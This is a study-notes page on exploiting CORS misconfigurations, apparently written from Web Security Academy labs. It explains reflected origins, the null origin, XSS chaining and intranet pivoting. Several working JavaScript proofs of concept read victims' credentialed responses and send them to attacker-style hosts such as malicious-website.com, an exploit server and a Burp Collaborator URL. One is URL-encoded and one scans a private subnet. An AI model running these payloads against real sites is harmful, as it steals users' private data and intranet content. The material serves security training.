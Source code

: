>[!info] Pre-requisites:
>- [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md)
>- [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

# Common vulnerabilities

## Server-generated Access-Control-Allow-Origin using client Origin

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

Malicious request:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

Response from the vulnerable server:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
<p>secret=My5up3r53cr3t</p>
```

These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session. Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain and read the secret.

PoC:
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ada00b4035e168fc11116f900d60017.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

## Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted.

Mistakes often arise when implementing CORS origin whitelists. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

>[!example]
>Suppose an application grants access to all domains ending in: `normal-website.com`.
>An attacker might be able to gain access by registering the domain: `hackersnormal-website.com`.
>
>Alternatively, suppose an application grants access to all domains beginning with `normal-website.com`.
>An attacker might be able to gain access using the domain: `normal-website.com.evil-user.net`

## Whitelisted null origin value

The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

-   Cross-origin redirects.
-   Requests from serialized data.
-   Request using the `file:` protocol.
-   Sandboxed cross-origin requests.

If the server implements `Access-Control-Allow-Origin: null`, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header (e.g. sandboxed `<iframe>` ).

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## Breaking TLS with poorly configured CORS and XSS

Even "correctly" configured [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md) establishes a trust relationship between two origins, if a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

The same logic can also be used to exploit application that rigorously employs HTTPS and also whitelists a trusted subdomain that is using plain HTTP. In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. 

>[!example]
>XSS on the trusted domain:
>![CORS3](../../zzz_res/attachments/CORS3.png)
>CORS trusts the vulnerable domain:
>![CORS4](../../zzz_res/attachments/CORS4.png)
>Exploit page sent to the victim which forces the redirect on the vulnerable page and triggers the cross-domain request
>```html
><script>document.location="http://stock.0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%76%61%72%20%72%65%71%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%72%65%71%2e%6f%6e%6c%6f%61%64%20%3d%20%72%65%71%4c%69%73%74%65%6e%65%72%3b%72%65%71%2e%6f%70%65%6e%28%27%67%65%74%27%2c%27%68%74%74%70%73%3a%2f%2f%30%61%64%64%30%30%36%34%30%33%37%63%64%65%65%34%63%36%62%33%38%35%66%63%30%30%62%36%30%30%63%37%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%27%2c%74%72%75%65%29%3b%72%65%71%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%72%65%71%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%20%7b%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%65%64%30%30%65%32%30%33%64%63%64%65%30%36%63%36%37%66%38%34%30%64%30%31%37%34%30%30%62%63%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%6c%6f%67%3f%6b%65%79%3d%27%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3b%3c%2f%73%63%72%69%70%74%3e%26%73%74%6f%72%65%49%64%3d%31&storeId=1"</script>
><!-- <script>document.location="http://stock.0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();req.onload = reqListener;req.open('get','https://0add0064037cdee4c6b385fc00b600c7.web-security-academy.net/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aed00e203dcde06c67f840d017400bc.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1&storeId=1"</script> -->
>```

## CORS without credentials with intranet pivot attack

Without  `Access-Control-Allow-Credentials: true` the victim user's browser will refuse to send their cookies, meaning the attacker will only gain access to unauthenticated content, which they could just as easily access by browsing directly to the target website.

However, there is one common similar situation where an attacker can't access a website directly: when it's part of an organization's intranet. A cross-origin request within a private network may be as follows:

```http
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

And the server responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

The application server is trusting resource requests from any origin without credentials. **If users within the private IP address space access the public internet** then a **CORS-based attack can be performed from the external** site that uses the victim's browser as a proxy **for accessing intranet resources** (it's like [Server Side Request Forgery (SSRF)](Server%20Side%20Request%20Forgery%20(SSRF).md) but using the victim's browser as proxy).

Scan a subnet and exfiltrate the page content:
```html
<html>
    <script>
        collaboratorURL = 'http://d4i329wl1e1wjgh7cec94oo51w7mvb.burpcollaborator.net'

        for (let i=0; i<256; i++){
            fetch('http://192.168.0.' + i + ':8080')
            .then(response => response.text())
            .then (text => {
                try {

                fetch(collaboratorURL + '?ip=' + 'http://192.168.0.' + i + "&code=" + encodeURIComponent(text))
                } catch(err){

                }
            })
        }
    </script>
</html>
```

# External Resources

- [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)